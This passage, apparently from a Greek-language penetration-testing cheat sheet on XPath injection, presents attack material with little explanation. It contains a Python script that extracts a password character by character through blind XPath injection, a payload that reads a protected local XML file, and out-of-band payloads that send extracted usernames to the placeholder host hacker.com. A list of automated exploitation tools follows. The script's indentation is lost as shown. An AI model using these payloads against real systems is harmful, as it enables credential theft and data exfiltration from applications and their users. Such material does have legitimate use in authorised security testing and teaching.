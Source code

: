 ```python
l = 0
alphabet = string.ascii_letters + string.digits + "{}_()"
for i in range(30):
r = requests.get("http://example.com?action=user&userid=2 and string-length(password)=" + str(i))
if ("TRUE_COND" in r.text):
l = i
break
print("[+] Password length: " + str(l))
for i in range(1, l + 1): #print("[i] Looking for char number " + str(i))
for al in alphabet:
r = requests.get("http://example.com?action=user&userid=2 and substring(password,"+str(i)+",1)="+al)
if ("TRUE_COND" in r.text):
flag += al
print("[+] Flag: " + flag)
break
```
### Διαβάστε το αρχείο
```python
(substring((doc('file://protected/secret.xml')/*[1]/*[1]/text()[1]),3,1))) < 127
```
## OOB Εκμετάλλευση
```python
doc(concat("http://hacker.com/oob/", RESULTS))
doc(concat("http://hacker.com/oob/", /Employees/Employee[1]/username))
doc(concat("http://hacker.com/oob/", encode-for-uri(/Employees/Employee[1]/username)))

#Instead of doc() you can use the function doc-available
doc-available(concat("http://hacker.com/oob/", RESULTS))
#the doc available will respond true or false depending if the doc exists,
#user not(doc-available(...)) to invert the result if you need to
```
### Αυτόματο εργαλείο

* [xcat](https://xcat.readthedocs.io/)
* [xxxpwn](https://github.com/feakk/xxxpwn)
* [xxxpwn\_smart](https://github.com/aayla-secura/xxxpwn\_smart)
* [xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer)
* [XmlChor](https://github.com/Harshal35/XMLCHOR)

## Αναφορές

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection)
* [https://wiki.owasp.org/index.php/Testing\_for\_XPath\_Injection\_(OTG-INPVAL-010)](https://wiki.owasp.org/index.php/Testing\_for\_XPath\_Injection\_\(OTG-INPVAL-010\))
* [https://www.w3schools.com/xml/xpath\_syntax.asp](https://www.w3schools.com/xml/xpath\_syntax.asp)
